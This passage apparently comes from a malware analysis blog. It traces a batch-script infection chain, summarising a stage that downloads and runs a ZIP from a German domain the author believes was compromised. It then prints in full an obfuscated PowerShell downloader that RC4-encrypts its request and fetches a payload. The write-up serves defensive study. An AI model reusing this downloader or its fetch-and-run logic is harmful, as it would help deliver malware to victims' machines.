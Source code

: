 ```bat
)
```

1. Grabs a ZIP file (`di3726.zip`) from `ausbildungsbuddy.de`.
2. If it downloads, unzips it with password `a0`, deletes the ZIP, and runs `1.bat`.
3. Cleans up the ZIP no matter what.

The domain [https://ausbildungsbuddy.de/](https://ausbildungsbuddy.de/) is still up.

![image.png](/assets/images/blog1/image 12.png)

The domain `ausbildungsbuddy.de` is associated with a legitimate German initiative called **Ausbildungsbuddy**, which recognizes and awards companies and students for excellence in vocational training. The website features information about past winners, events, and related content.

However, there are indications that this domain might have been compromised. A recent report from [SecAI](https://www.secai.ai/) suggests that `ausbildungsbuddy.de` has been used to transmit information from infected hosts, indicating potential malicious activity. Here our attribution gets more stronger.

![image.png](/assets/images/blog1/image 13.png)

- [https://i.secai.ai/research/ausbildungsbuddy.de](https://i.secai.ai/research/ausbildungsbuddy.de)


### Third Batch Script: 53452693.bat (The Downloader)

```bat
@echo off
pushd %~dp0
set "tgurl=%~1"
set "md12=%~3"
if not "%md12%" == "0" (
    powershell -command "function AgDEdztLPwc{param ($sUyjrHhlKLI,$fpmGhyBZVd);$BTAikdYGnq = [System.Text.Encoding]::UTF8.GetBytes($sUyjrHhlKLI);    $qsqCcCdIRk = [System.Text.Encoding]::UTF8.GetBytes($fpmGhyBZVd);$cIakGGgWdq = New-Object byte[](256);$yfqibmGyCxfO = New-Object byte[](256);for ($KClwzWzYuUS = 0; $KClwzWzYuUS -lt 256; $KClwzWzYuUS++) {$cIakGGgWdq[$KClwzWzYuUS] = $KClwzWzYuUS;$yfqibmGyCxfO[$KClwzWzYuUS] = $qsqCcCdIRk[$KClwzWzYuUS %% $qsqCcCdIRk.Length];}$BJwZmpumfis = 0;for ($KClwzWzYuUS = 0; $KClwzWzYuUS -lt 256; $KClwzWzYuUS++) {$BJwZmpumfis = ($BJwZmpumfis + $cIakGGgWdq[$KClwzWzYuUS] + $yfqibmGyCxfO[$KClwzWzYuUS]) %% 256;$hfKcPmzfho = $cIakGGgWdq[$KClwzWzYuUS];$cIakGGgWdq[$KClwzWzYuUS] = $cIakGGgWdq[$BJwZmpumfis];$cIakGGgWdq[$BJwZmpumfis] = $hfKcPmzfho;}$emLSkKMjpc = New-Object byte[] $BTAikdYGnq.Length;$KClwzWzYuUS = 0;$BJwZmpumfis = 0;for ($OXyfStRauo = 0; $OXyfStRauo -lt $BTAikdYGnq.Length; $OXyfStRauo++) {$KClwzWzYuUS = ($KClwzWzYuUS + 1) %% 256;$BJwZmpumfis = ($BJwZmpumfis + $cIakGGgWdq[$KClwzWzYuUS]) %% 256;$hfKcPmzfho = $cIakGGgWdq[$KClwzWzYuUS];$cIakGGgWdq[$KClwzWzYuUS] = $cIakGGgWdq[$BJwZmpumfis];$cIakGGgWdq[$BJwZmpumfis] = $hfKcPmzfho;$JCHwkFZRYoU = ($cIakGGgWdq[$KClwzWzYuUS] + $cIakGGgWdq[$BJwZmpumfis]) %% 256;$emLSkKMjpc[$OXyfStRauo] = $BTAikdYGnq[$OXyfStRauo] -bxor $cIakGGgWdq[$JCHwkFZRYoU];}$lRIcClUdCG = [System.Convert]::ToBase64String($emLSkKMjpc);return $lRIcClUdCG;};$EAqsrDUfsMc = '%tgurl%';$wHVNKEIlGGw = '%~2';Add-Type -AssemblyName 'System.Web';$BoMcqUMPpEc=(Get-Date).Ticks.ToString();$fDdXHAKWolqN = $EAqsrDUfsMc.Split('?')[1];$jeGSnWlkwbSC = AgDEdztLPwc -sUyjrHhlKLI $fDdXHAKWolqN -fpmGhyBZVd $BoMcqUMPpEc;$EAqsrDUfsMc=$EAqsrDUfsMc.Split('?')[0]+'?'+$BoMcqUMPpEc+'='+[System.Web.HttpUtility]::UrlEncode($jeGSnWlkwbSC);iwr -Uri $EAqsrDUfsMc -OutFile $wHVNKEIlGGw;" > nul
)else (
    powershell -command "$url1 = '%tgurl%';$outfile = '%~2';iwr -Uri $url1 -OutFile $outfile;" > nul
)
```
